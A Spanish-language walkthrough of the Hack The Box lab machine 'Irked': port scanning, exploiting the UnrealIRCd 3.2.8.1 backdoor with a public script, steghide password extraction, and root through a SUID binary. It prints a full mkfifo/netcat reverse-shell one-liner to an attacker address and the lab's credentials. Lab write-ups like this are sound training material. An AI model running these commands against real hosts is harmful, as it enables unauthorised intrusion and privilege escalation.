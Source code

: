 Irked es una box bastante simple y directa que requiere habilidades básicas de enumeración. Muestra la necesidad de escanear todos los puertos en las máquinas e investigar cualquier binario fuera de lugar encontrado mientras se enumera un sistema. 

Escaneo:
nmap -Pn -p- -open 10.10.10.117 -T4
![image](https://github.com/4madomaster/Amadomaster-machines/assets/169741500/8e8c56c0-5e97-4139-be55-87c084aaff7c)

 Versiones:
 nmap -Pn -sCV -p22,80,111,6697,8067,52895,65534 10.10.10.117 -T4
![image](https://github.com/4madomaster/Amadomaster-machines/assets/169741500/f432a9e1-7847-4cf7-ad47-6503dce91ba9)

 Encontramos un dominio 
![image](https://github.com/4madomaster/Amadomaster-machines/assets/169741500/e4b21a59-70f8-40e4-a3e5-d6ca63b57a79)
![image](https://github.com/4madomaster/Amadomaster-machines/assets/169741500/bfa86b04-6ed4-4d3d-8719-b9d4f3358cd3)


# UnrealIRCd Unreal3.2.8.1
Luego de enumerar un buen rato encontré lo siguiente  ayudado de hacktricks
https://book.hacktricks.xyz/network-services-pentesting/pentesting-irc
nc 10.10.10.117 6697
![image](https://github.com/4madomaster/Amadomaster-machines/assets/169741500/9465e67a-811a-4bf2-b608-27918b6b32e8)

Añadimos USER master 0 * master  Nick master encontrado Unreal3.2.8.1, validamos un exploit.
searchsploit UnrealIRCd -w

![image](https://github.com/4madomaster/Amadomaster-machines/assets/169741500/064a1a02-af05-40f4-893f-8b37dceca912)

Como hay varios buscamos en GitHub un exploit que no use metasploit 
https://github.com/chancej715/UnrealIRCd-3.2.8.1-Backdoor-Command-Execution
![image](https://github.com/4madomaster/Amadomaster-machines/assets/169741500/1ac7c003-93eb-4481-aaa8-32ade03781f4)

ejecutamos de acuerdo a las instrucciones.
![image](https://github.com/4madomaster/Amadomaster-machines/assets/169741500/133ab6c8-a6a6-454e-a349-9eca83abb35a)

 python3 script.py 10.10.10.117 6697 10.10.14.2 123
 
 ![image](https://github.com/4madomaster/Amadomaster-machines/assets/169741500/b8c32d23-5771-49be-8556-f40ac75d6703)

 y en netcat tenemos acceso al pc
 
![image](https://github.com/4madomaster/Amadomaster-machines/assets/169741500/f69474f1-a9a7-4b87-a9ed-f5733cb8a84c)

Mejoramos shell

![image](https://github.com/4madomaster/Amadomaster-machines/assets/169741500/e4eac07c-db4a-4298-b808-b0d9b965a5bb)

Enumerando la máquina encontramos otro usuario y su flag esta allí por lo cual debemos ser djmarov

![image](https://github.com/4madomaster/Amadomaster-machines/assets/169741500/3f52e386-84c1-4121-88e5-cda8a94d55b3)

validando el archivo cat unrealircd.conf

![image](https://github.com/4madomaster/Amadomaster-machines/assets/169741500/751d5dcd-355e-4f50-a073-2dc466464482)

buscando dentro del directorio /home/djmardov/Documents encuentro de manera oculta el  archivo .backup que contiene un password.

![image](https://github.com/4madomaster/Amadomaster-machines/assets/169741500/2aab7543-b3f7-4f8d-9dca-5b82a01fe560)


# Esteganografia para jpg ==steghide==
Al principio intenté conectar por ssh con las credenciales encontradas mooc y UPup, pero nada funciono luego leí bien el mensaje del .backup sobre super elite steg backup pw steg de steghide y la imagen obviamente del index.

steghide extract -sf irked.jpg -p UPupDOWNdownLRlrBAbaSSss

![image](https://github.com/4madomaster/Amadomaster-machines/assets/169741500/c0027ffc-64c6-46fd-a327-8ed4a70b154e)

validamos pass.txt

![image](https://github.com/4madomaster/Amadomaster-machines/assets/169741500/36dbd8fd-28f0-48ca-8806-c19c998f0df2)

nos conectamos por ssh 
ssh djmardov@10.10.10.117

![image](https://github.com/4madomaster/Amadomaster-machines/assets/169741500/84268c8a-68b6-4aca-addc-6ad862463caf)

# binario viewuser
Ahora enumerando la máquina con djmardov encuentro el siguiente binario raro 
find / -perm -4000 2>/dev/null

![image](https://github.com/4madomaster/Amadomaster-machines/assets/169741500/086ba064-df75-41c6-9b15-d10b7ca252f0)


lo ejecuto 
viewuser

![image](https://github.com/4madomaster/Amadomaster-machines/assets/169741500/c9a5fde9-b359-42d3-aa26-875865c2f846)

Se detecta que se intenta guardar lo obtenido en ese /tmp/listusers.
Busco en internet 

![image](https://github.com/4madomaster/Amadomaster-machines/assets/169741500/1496c577-4084-4ebb-9851-b898390adfcb)

Abro el primer vínculo 

![image](https://github.com/4madomaster/Amadomaster-machines/assets/169741500/84865244-a14d-4563-9b97-6b263c4014e6)

Allí nos dice que se crea el archivo /tmp/listusers y se le da full permisos aparte que dentro de este archivo tendrá la reverse Shell.
creo ese file listusers pero le añado una reverse shell 
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 1234 >/tmp/f" > /tmp/listusers

![image](https://github.com/4madomaster/Amadomaster-machines/assets/169741500/bfdc3390-f366-450d-8e2b-91c1b1410c50)
Reviso el netcat y somos root

![image](https://github.com/4madomaster/Amadomaster-machines/assets/169741500/d6e35e92-a80c-4690-9e75-f44226634bc4)

otra forma de validar el file listuser es haciendo un simple id 
echo id > /tmp/listusers

![image](https://github.com/4madomaster/Amadomaster-machines/assets/169741500/eed0ac21-0ea3-46fc-9fe7-3e415af2f007)

aca detectamos permisos denegados es decir que si ejecuta comandos.


Maquina media tirando a facil muy chevere sobre todo la parte del steghide hacia mucho no utilizaba esta herramienta. 

